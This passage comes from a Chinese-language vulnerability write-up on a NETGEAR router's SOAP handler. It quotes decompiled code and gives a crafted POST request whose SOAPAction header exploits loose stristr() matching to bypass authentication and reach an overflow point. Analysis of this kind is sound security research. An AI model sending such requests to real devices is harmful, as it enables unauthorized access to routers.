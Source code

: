 但是在`sa_processResponse()`函数中，在根据`soap_action`的类型进入分支处理时，`urn:NETGEAR-ROUTER:service:DeviceInfo:1#GetInfo`和`urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin`这2项会分别匹配对应`case` 分支的第1条`if`语句，从而跳转到其他地方，而`urn:NETGEAR-ROUTER:service:ParentalControl:1#Authenticate`对应的`case`分支中的跳转都是跳到其他地方。因此，直接访问以上3个`SOAPAction`，程序执行流程不会到达溢出漏洞点。

```
unsigned int __fastcall sa_processResponse(int a1, char *a2, int a3, signed int a4, char *a5)
`{`

  v5 = (void *)a1; v6 = a2;
  switch ( (unsigned int)v5 )
  `{`
    case 0u:  // 对应service：DeviceInfo
      if ( sa_findKeyword((int)v6, 0) == 1 ) // GetInfo
        goto LABEL_241;  // (1) &lt;=== 跳转到其他分支
      if ( sa_findKeyword((int)v6, 0xB1) == 1 ) // SetDeviceNameIconByMAC
      `{` v12 = 177; goto LABEL_184; `}`
      if ( sa_findKeyword((int)v6, 0xB9) == 1 ) // SetDeviceInfoByMAC
      `{` v12 = 185; goto LABEL_184; `}`
      if ( sa_findKeyword((int)v6, 0xBA) == 1 ) // SetNetgearDeviceName
      `{` v12 = 186; goto LABEL_184; `}`
      // ...
    case 1u:  // 对应service：DeviceConfig
      if ( sa_findKeyword((int)v6, 0xB8) == 1 ) // SOAPLogin
      `{` v10 = 184; v11 = -1; goto LABEL_242; `}`  // (2) &lt;=== 跳转到其他分支
      // ...
    case 7u:  // 对应service：ParentalControl
      if ( sa_findKeyword((int)v6, 71) == 1 ) // GetAllMACAddresses
      `{` v10 = 71; v11 = -1; goto LABEL_242; `}`  // (3) &lt;=== 全部跳转到其他分支
      // ...
```

那么如何才到达溢出漏洞点且无需认证呢？考虑到在查找`SOAPAction`服务和`SOAPAction`对应的关键字时采用的是`stristr()`函数，即直接进行字符串匹配查找，而没有考虑字符串具体的位置，可以通过发送如下`POST`请求绕过认证并达到溢出漏洞点。

```
// 省略部分内容
POST soap/server_sa HTTP/1.1
SOAPAction: urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLoginDeviceInfo

&lt;?xml version="1.0"?&gt;
&lt;SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"&gt;
&lt;SOAP-ENV:Body&gt;
SetNetgearDeviceName
&lt;NewBlockSiteName&gt;123456
&lt;/NewBlockSiteName&gt;
&lt;/SOAP-ENV:Body&gt;
&lt;/SOAP-ENV:Envelope&gt;

```

首先，在`sa_method_check()`中，在查找`SOAPAction`服务时，对应的表项`DeviceInfo`排在`DeviceConfig`之前，因此会匹配到`DeviceInfo`，对应的`soap_action`类型为0。其次，在对`SOAPAction`头部进行判断时，某个`strncmp()`会比对成功返回0，使得对应的`if`条件为`false`，程序继续执行后会调用`sa_processResponse()`。在`sa_processResponse()`中，由于`soap_action`的类型为0，程序会进入`case 0`分支，在查找关键字时会匹配到下面的`SetNetgearDeviceName`，因而会跳到对应的分支继续执行，最终到达溢出漏洞点。
